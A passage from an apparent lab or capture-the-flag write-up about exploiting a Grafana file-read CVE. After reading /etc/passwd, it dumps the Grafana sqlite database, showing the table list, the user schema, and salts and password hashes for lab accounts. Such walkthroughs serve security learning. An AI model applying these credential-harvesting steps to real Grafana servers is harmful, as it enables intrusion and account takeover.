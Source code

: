 This reproduces the same output, without doing all the testing and such first. But the cve is quite simple. The main goodness of it is it specifically does a bit of recon that is helpful, the location of the grafana db. Because that would be the only super useful thing we can grab. As the lack of user accounts from the /etc/passwd that we read suggests we're on a container. 

You would typically see `user:1000:1000:description here:/home/user:/bin/bash`
There is no user in the typical range of 1000+, sub 1000  are usually service-like accounts.

Run the script, either the one I just cooked up or the python one and open up the database with sqlite.

```

sqlite> .tables
alert                       login_attempt
alert_configuration         migration_log
alert_instance              org
alert_notification          org_user
alert_notification_state    playlist
alert_rule                  playlist_item
alert_rule_tag              plugin_setting
alert_rule_version          preferences
annotation                  quota
annotation_tag              server_lock
api_key                     session
cache_data                  short_url
dashboard                   star
dashboard_acl               tag
dashboard_provisioning      team
dashboard_snapshot          team_member
dashboard_tag               temp_user
dashboard_version           test_data
data_source                 user
library_element             user_auth
library_element_connection  user_auth_token

sqlite> .schema user
CREATE TABLE `user` (
`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL
, `version` INTEGER NOT NULL
, `login` TEXT NOT NULL
, `email` TEXT NOT NULL
, `name` TEXT NULL
, `password` TEXT NULL
, `salt` TEXT NULL
, `rands` TEXT NULL
, `company` TEXT NULL
, `org_id` INTEGER NOT NULL
, `is_admin` INTEGER NOT NULL
, `email_verified` INTEGER NULL
, `theme` TEXT NULL
, `created` DATETIME NOT NULL
, `updated` DATETIME NOT NULL
, `help_flags1` INTEGER NOT NULL DEFAULT 0, `last_seen_at` DATETIME NULL, `is_disabled` INTEGER NOT NULL DEFAULT 0);
CREATE UNIQUE INDEX `UQE_user_login` ON `user` (`login`);
CREATE UNIQUE INDEX `UQE_user_email` ON `user` (`email`);
CREATE INDEX `IDX_user_login_email` ON `user` (`login`,`email`);


sqlite> select email,name,salt,password from user;
admin@localhost||YObSoLj55S|7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8
boris@data.vl|boris|LCBhdtJWjl|dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8
```